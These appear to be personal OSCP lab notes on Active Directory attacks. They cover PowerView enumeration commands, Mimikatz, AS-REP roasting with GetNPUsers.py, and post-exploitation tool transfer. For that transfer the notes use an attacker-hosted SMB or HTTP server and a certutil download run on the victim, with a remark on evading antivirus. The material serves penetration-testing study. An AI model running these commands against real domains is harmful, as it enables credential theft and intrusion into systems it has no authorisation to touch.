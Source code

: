 **Hexchat** works, just make sure to search for all channels with 0 to 9999 users!!!

`ADMIN`
`LIST`
## Active Directory Tools

[**PowerView.ps1**](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) is great for enumeration.  Here are some example commands:

To Get all Computer OS on the domain:
	`Get-NetComputer -fulldata | select operatingsystem`

To Get all users on Domain:
	`Get-NetUser | select cn`
	[HarmJ0y's PowerView 3.0 tips and tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

[**Mimikatz**](https://github.com/gentilkiwi/mimikatz/releases) (Link to Mimikatz releases on GitHub)

	`net user /domain`

	`net group /domain`

`GetNPUsers.py`is great for grabbing the users with no pre auth. Try using this after getting a list of usernames.

-----------------------------------
**EXPERIENCE FROM LAB...**

Get initial foothold **AND** Privesc to SYSTEM.  Can't really say much there, you just gotta do it.

(Or look for usernames.  If you find a bunch of users, put them in a txt file and run `GetNPUsers.py` to `ASREPROAST`.  This will give you credentials to login potentially.)
```python
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

If you already got into a machine and escalated:

Go ahead and transfer a series of post exploitation tools to the system however you like.  You could use `smbserver.py` and copy that way, or use `certutil` to download from your own host http server.  `Smbserver.py` is better because you can run without ever touching the disk on the victim system, but for a CTF, I like putting my stuff on the disk.  SMB also lets you evade antivirus in some cases....Not really a factor in OSCP though.

**ON ATTACKING MACHINE**
```python
smbserver.py share . -smb2support -username test -password test
# Note, `smb2` is a little flaky, might need to fuck around a bit with it.
python -m SimpleHTTPServer 80
```

**ON VICTIM**
```
\\[IP]\share\[FILENAME]
certutil.exe -urlcache -split -f http://[IP]/[FILENAME] [DEST FILENAME]
```
 